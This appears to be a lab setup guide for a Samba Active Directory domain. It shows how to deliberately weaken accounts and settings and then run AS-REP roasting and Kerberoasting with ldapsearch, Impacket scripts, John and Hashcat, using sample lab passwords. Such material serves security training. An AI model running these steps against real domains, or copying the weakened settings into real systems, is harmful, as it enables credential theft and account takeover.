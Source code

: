 1. With TLS:
```bash
ldapsearch -H ldap://192.168.122.10 -D "CN=saul.goodman,CN=Users,DC=polaris,DC=org" -w "beTTer@caLL@me" -b "DC=polaris,DC=org" -x -ZZ -LLL "(&(objectCategory=person)(objectClass=user))"
```

2. Without TLS:
```bash
ldapsearch -H ldap://192.168.122.10 -D "CN=saul.goodman,CN=Users,DC=polaris,DC=org" -w "beTTer@caLL@me" -b "DC=polaris,DC=org" -x "(&(objectCategory=person)(objectClass=user))"
```
**[NOTE:]** To perform LDAP queries without TLS, it is necessary to add `ldap server require strong auth = no` on the DC `smb.conf` file.

#### AS-REP Roasting

1. Deactivate Pre-authentication for a given user by modifying the `useraccountcontrol` attribute to `4194816`. 
```bash
/usr/local/samba/bin/samba-tool user edit <user> --editor=nano
```

**[NOTE:]** This does not work when using Heimdal Kerberos in Samba

2. Add to `krb5.conf` file at `[libdefaults]` the line : `allow_rc4 = true`
3. Ask for the TGT without pre-Authentication.
```bash
GetNPUsers.py polaris.org/ -request -no-pass -usersfile valid_users.txt
```
4. Use Hascat/John to decrypt the hash.
```bash
# John
john --wordlist=<wordlist> <hash_file>

# Hashcat
hashcat -m 18200 <hash_file> <wordlist> -o asrephash.cracked --force --quiet
```

#### Kerberoasting

1. Add a user with a Service Principal Name (SPN) that will be the target of the attack. Despite this account not running a service, the account only needs an SPN set to be vulnerable to the attack.
```bash
/usr/local/samba/bin/samba-tool user create walter.white Metho1o590oA$elry
/usr/local/samba/bin/samba-tool spn add HTTP/polaris.org walter.white
```

2. Use an LDAP filter to obtain kerberoastable users.
```bash
ldapsearch -H ldap://192.168.122.10 -D "CN=skyler.white,CN=Users,DC=polaris,DC=org" -w "Password123" -b "DC=polaris,DC=org" -x -ZZ -LLL '(&(objectClass=user)(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))'
```

3. Run the modified version of GetUserSPNs.py.
```bash
GetUserSPNs.py -request polaris.org/skyler.white:Password123 -dc-ip 192.168.122.10 -spn HTTP/polaris.org -userSPN walter.white
```
